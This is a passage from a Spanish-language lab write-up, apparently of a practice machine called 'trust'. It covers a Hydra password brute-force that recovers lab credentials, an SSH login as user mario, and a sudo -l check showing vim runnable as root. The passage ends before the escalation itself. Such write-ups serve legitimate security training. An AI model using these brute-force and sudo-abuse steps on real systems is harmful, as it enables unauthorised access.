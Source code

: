 _Nota:_ Inicialmente cometimos el error de usar `-p` (una sola contraseña), en vez de `-P` (una lista). Esto fue corregido rápidamente.

### Resultado:

Hydra encontró las credenciales válidas:

- **Usuario:** `mario`
- **Contraseña:** `chocolate`

## **Acceso por SSH como mario**

Usamos las credenciales obtenidas para iniciar sesión por SSH:

```bash
(zikuta㉿zikuta)-[~/Downloads/trust]
└─$ ssh mario@172.18.0.2          
The authenticity of host '172.18.0.2 (172.18.0.2)' can't be established.
ED25519 key fingerprint is SHA256:z6uc1wEgwh6GGiDrEIM8ABQT1LGC4CfYAYnV4GXRUVE.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '172.18.0.2' (ED25519) to the list of known hosts.
mario@172.18.0.2's password: 
Permission denied, please try again.
mario@172.18.0.2's password: 
Linux 1a6aad2c534d 6.12.13-amd64 #1 SMP PREEMPT_DYNAMIC Kali 6.12.13-1kali1 (2025-02-11) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Wed Mar 20 09:54:46 2024 from 192.168.0.21
```

Ingresamos la contraseña `chocolate` y obtuvimos una shell como el usuario `mario`.

## **Escalada de privilegios con `sudo -l`**

Una vez dentro, lo primero que hicimos fue verificar los privilegios del usuario con `sudo`:

```bash
mario@1a6aad2c534d:~$ sudo -l
[sudo] password for mario: 
Matching Defaults entries for mario on 1a6aad2c534d:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    use_pty

User mario may run the following commands on 1a6aad2c534d:
    (ALL) /usr/bin/vim
```
